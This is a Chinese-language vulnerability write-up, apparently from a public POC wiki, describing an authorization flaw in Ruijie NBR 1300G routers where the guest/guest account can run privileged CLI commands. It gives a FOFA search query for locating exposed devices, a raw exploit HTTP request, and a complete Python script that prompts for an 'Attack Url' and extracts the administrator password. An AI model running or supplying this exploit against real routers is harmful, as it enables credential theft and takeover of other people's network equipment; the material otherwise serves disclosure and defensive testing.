

# 锐捷 NBR 1300G路由器 越权CLI命令执行漏洞

## 漏洞描述

锐捷NBR 1300G路由器 越权CLI命令执行漏洞，guest账户可以越权获取管理员账号密码

## 漏洞影响

```
锐捷NBR路由器
```

## FOFA

```
title="锐捷网络 --NBR路由器--登录界面"
```

## 漏洞复现

登录页面如下


查看流量发现 CLI命令流量


请求包为

```plain
POST /WEB_VMS/LEVEL15/ HTTP/1.1
Host: 
Connection: keep-alive
Content-Length: 73
Authorization: Basic
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: auth=; user=
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1

command=show version&strurl=exec%04&mode=%02PRIV_EXEC&signname=Red-Giant.
```

测试发现执行其他命令需要权限，查看手册发现存在低权限 guest账户（guest/guest）

登录后发送请求包，执行CLI命令 **(show webmaster user)** 查看用户配置账号密码


成功获取所有用户的账号密码

```plain
webmaster level 0 username admin password guest
webmaster level 0 username guest password guest
```

## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 锐捷NBRNBR1300G 路由器 越权CLI命令执行漏洞                    \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/WEB_VMS/LEVEL15/"
    headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
                "Content-Type": "application/x-www-form-urlencoded",
                "Authorization": "Basic Z3Vlc3Q6Z3Vlc3Q="
    }
    data = 'command=show webmaster user&strurl=exec%04&mode=%02PRIV_EXEC&signname=Red-Giant.'
    try:
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        print("\033[36m[o] 正在执行 show webmaster user \033[0m".format(target_url))
        if "webmaster" in response.text and " password" in response.text and response.status_code == 200:
            user_data = re.findall(r'webmaster level 0 username admin password (.*?)<OPTION>', response.text)[0]
            print("\033[36m[o] 成功获取, 管理员用户账号密码为: admin/{} \033[0m".format(user_data))
        else:
            print("\033[31m[x] 请求失败:{} \033[0m")
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    POC_1(target_url)
```

